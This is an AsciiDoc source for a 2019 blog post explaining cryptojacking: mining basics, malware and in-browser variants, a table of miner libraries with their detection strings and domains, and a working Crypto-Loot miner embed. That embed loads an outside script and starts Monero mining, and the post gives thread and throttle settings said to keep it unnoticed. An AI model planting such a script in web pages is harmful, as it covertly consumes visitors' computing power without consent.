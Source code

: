 :slug: cryptojacking-malware/
:date: 2019-08-25
:category: documentation
:subtitle: Understanding the cryptojacking "malware"
:tags: social engineering, javascript
:image: cover.png
:alt: CPU Usage. Photo by Alberto Duo on Unsplash: https://unsplash.com/photos/e4rcg33x4fA
:description: It explains the different types of cryptojacking, which can be carried out, as well as the different tools that provide this service. A small example of the use of a tool is shown. Finally, some conclusions about the use of cryptojacking in a legal way.
:keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, Javascript.
:author: Diego Alvarez
:writer: diegoaa
:name: Diego Alvarez
:about1: Systems and Telecommunications Engineer student
:about2: "Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope

= Cryptojacking, a real malware?

Before going to the concept,
we must give a brief definition about blockchain.
Simplifying, it is a unique, consensual and
distributed registry on the network and
it allows to store information
that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts,
intellectual property management, cryptocurrencies,
the latter being the most used.

In the field of cryptocurrencies,
the blockchain stores all transactions
made with a cryptocurrency.
The security and integrity of these systems
is maintained by nodes,
which are computers connected to the blockchain network
competing each other to verify transactions.
This process is known as mining
and is carried out by providing processing power
with either +CPUs+, +GPUs+, or
using specialized hardware for this type of tasks.

Usually, nodes associate with each other
and create groups where
all together help to validate
a group of transactions and
when these transactions are validated,
each node is rewarded with
the proportion of the power contributed.

== Concept

When mining some cryptocurrency
it must be taken into account,
that in these processes,
the percentage of +GPU+ or +CPU+ usage increases
as well as the use of electricity.

Now, what about if I tell you that
others can perform such processing power for you,
and even better, without having
to divide the profits between them.
It sounds pretty good!
as well as simple to implement with two variations.

* The first is carried out by
infecting the victim's machine with a malware,
usually by social engineering,
we can make a victim download a malware
that executes the mining process in the background,
which is unknown to the victim.
* The other method, is in-browser mining.
This executes a code in the user browser
when accessing a particular site.
In this case, +JavaScript+ is used to execute such scripts.

== Discussions

some people would prefer +100%+
of the time to have their +CPU+ being used,
rather than dealing with ads
and popups on every new page.

On the other hand, antivirus companies
periodically update their definition of malware,
including web miners as a potential threat to the user system.

According to cointelegraph<<r1 ,^[1]^>>, Monero,
the most affected currency
by the excessive mining,
plans to reinforce its algorithm
by requiring miners to dedicate
over two gigabytes of +RAM+ to the process,
which could make cryptojacking attempts harder to hide.

The use of these scripts
defines whether it is legal or not.
There are cases where attackers
inject code into websites through +XSS+,
generating profits, and of course,
without the consent of the website administrator.

As noted above, with social engineering techniques,
the attacker could make victims download malicious programs
to perform mining without consent.

== Tools

There are many tools to perform in-browser mining,
being link:https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/[Conhive] one of the most used,
but since March 2019 it stopped working.

However there are others quite similar.
The following Table 1 shows a scan,
made with link:https://publicwww.com/[publicWWW],
the approximate number of websites using these tools.

.Quantity of websites per library<<2 ,^[2]^>>
[options="header"]
|====
|Website           |Results |Query Parameter
|Coinhive          |30611   |"coinhive.min.js"
|JSEcoin           |1131    |"load.jsecoin.com"
|Crypto-Loot       |695     |"CryptoLoot.Anonymous"
|Minr              |324     |"minr.pw", "st.kjli.fi", "abc.pema.cl",
"metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs",
"hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid"
|CoinImp           |317     |"www.coinimp.com/scripts/min.js"
|ProjectPoi (PPoi) |116     |"projectpoi.min"
|AFMiner           |46      |"afminer.com/code/miner.php"
|Papoto            |42      |"papoto.com/lib/papoto.js"
|====

In the following example, a test is shown using link:http://Crypto-Loot[Crypto Loot],
a library that is replacing the previous Coinhive.
It is very easy to implement in any application
by inserting the following code.

.In-Browser mining script
[source, javascript, linenums]
----
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
----

When a user visits the application,
the level of processing increases very fast.
The recommended thread value
to make the script unnoticed is between 2-4.
And the throttle that defines the maximum +CPU+ usage
is at 0.2 (80%), being 0.0 the full speed
and the least recommended.

.CPU Usage while visiting a website with In-Browser mining script.
image::cpu.png[CPU Usage]

Earnings and processing power collected
can be seen in the link:https://crypto-loot.org/dashboard/[dashboard]
of who inserted the script.

== Conclusion

However, the use of services such as link:http://Crypto-Loot[Crypto Loot] are legal.
They are considered malware
when used anonymously in users systems and
is our responsibility
to inform users what is happening
and provide statistics on mined power.

In order of using these mining methods to be legitimate,
users must receive a notification
about the execution of these scripts, as well as
the option to disable them and stop mining.

So far there are few websites
where the user is not actually informed
of the use of these scripts,
and here is where antivirus companies disagree
about excessive +CPU+ usage that can cause damage,
but actually they do not have the intention to
harm the files of the infected machine,
they just make the machine work a little slow.

No doubt nobody wants their machine to work slower,
but with a proper configuration of the scripts,
you can achieve a website that generates profits
without having to show annoying ads to visitors
and without exceeding the use of their +CPU+.

== References

. [[r1]] cointelegraph.
link:https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october[Monero Developers Consider Adopting New Proof-of-Work Algorithm in October.]

. [[r2]] S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018).
_How to measure anything in cibersecurity risk_.
link:https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561[A first look at browser-based cryptojacking.].
_2018 IEEE European Symposium on Security and Privacy Workshops (EuroS&PW)_, 63.
